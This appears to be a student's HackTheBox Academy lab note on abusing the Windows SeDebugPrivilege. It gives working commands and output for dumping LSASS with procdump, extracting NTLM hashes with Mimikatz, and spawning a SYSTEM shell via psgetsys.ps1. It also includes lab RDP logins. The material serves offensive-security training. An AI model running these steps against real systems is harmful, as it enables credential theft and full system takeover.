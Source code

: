 # SeDebugPrivilege

To run a particular application or service or assist with troubleshooting, a user might be assigned the SeDebugPrivilege instead of adding the account into the administrators group.

This privilege can be assigned via local or domain group policy, under :
Computer Settings > Windows Settings > Security Settings

Suppose we are, for example, retrieving many NTLMv2 password hashes using Responder or Inveigh.

1) Enumerate privileges

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

2) Use procdump to leverage this privilege and dump process memory

https://docs.microsoft.com/en-us/sysinternals/downloads/procdump

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

3) Load dump this in Mimikatz using the sekurlsa::minidump command

After issuing the sekurlsa::logonPasswords commands, we gain the NTLM hash of the local administrator account logged on locally

mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>

--> we can also take a manual memory dump of the LSASS process via the Task Manager by browsing to the Details tab, choosing the LSASS process, and selecting Create dump file

## Remote Code Execution as SYSTEM

1) Transfer this script to the target

https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1

2) tasklist

winlogon.exe                   612 Console                    1     10,408 K

3) 

.\psgetsy.ps1 [MyProcess]::CreateProcessFromParent(612,C:\Windows\System32\cmd.exe,"")

OR 

.\psgetsy.ps1 [MyProcess]::CreateProcessFromParent((Get-Process "lsass").Id,C:\Windows\System32\cmd.exe,"")


Other script :
https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC

--> We would need to customize those scripts in a case we don't have any RDP access to the target (add a reverse shell for example)

--> SeDebugPrivilege is an intersting technique when LSASS dump don't result in any useful credentials

## LAB

xfreerdp /v:10.129.43.43 /u:htb-student /p:HTB_@cademy_stdnt!

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

cd c:\Tools

Procdump\procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

Error opening lsass.exe (696):
Access is denied. (0x00000005, 5)

Procdump\procdump.exe -accepteula -ma C:\Windows\System32\lsass.exe lsass.dmp

No process matching the specified name can be found.
Try elevating the command prompt or using PsExec to make one as SYSTEM.
        psexec.exe -s -d -i cmd.exe
        procdump.exe -accepteula ...

secpol.msc

--> Access Denied

xfreerdp /v:10.129.113.23 /u:jordan /p:HTB_@cademy_j0rdan!

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

cd c:\Tools

Procdump\procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[12:10:54] Dump 1 initiated: c:\Tools\lsass.dmp
[12:10:55] Dump 1 writing: Estimated dump file size is 42 MB.
[12:10:55] Dump 1 complete: 42 MB written in 0.8 seconds
[12:10:56] Dump count reached.

cd c:\Tools\Mimikatz\x64

mimikatz.exe

sekurlsa::minidump c:\Tools\lsass.dmp
Switch to MINIDUMP : 'c:\Tools\lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'c:\Tools\lsass.dmp' file for minidump...